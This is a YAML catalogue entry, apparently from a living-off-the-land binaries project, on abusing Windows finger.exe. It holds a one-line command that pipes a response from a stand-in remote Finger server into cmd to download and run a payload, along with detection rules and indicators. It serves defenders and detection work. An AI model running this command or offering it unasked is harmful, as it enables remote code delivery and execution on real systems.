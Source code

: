 ```yaml
---
Name: Finger.exe
Description: Displays information about a user or users on a specified remote computer that is running the Finger service or daemon
Author: Ruben Revuelta
Created: 2021-08-30
Commands:
  - Command: finger user@example.host.com | more +2 | cmd
    Description: 'Downloads payload from remote Finger server. This example connects to "example.host.com" asking for user "user"; the result could contain malicious shellcode which is executed by the cmd process.'
    Usecase: Download malicious payload
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 8.1, Windows 10, Windows 11, Windows Server 2008, Windows Server 2008R2, Windows Server 2012, Windows Server 2012R2, Windows Server 2016, Windows Server 2019, Windows Server 2022
Full_Path:
  - Path: c:\windows\system32\finger.exe
  - Path: c:\windows\syswow64\finger.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_finger_usage.yml
  - IOC: finger.exe should not be run on a normal workstation.
  - IOC: finger.exe connecting to external resources.
Resources:
  - Link: https://twitter.com/DissectMalware/status/997340270273409024
  - Link: https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/ff961508(v=ws.11)
Acknowledgement:
  - Person: Ruben Revuelta (MAPFRE CERT)
    Handle: '@rubn_RB'
  - Person: Jose A. Jimenez (MAPFRE CERT)
    Handle: '@Ocelotty6669'
  - Person: Malwrologist
    Handle: '@DissectMalware'
---
```

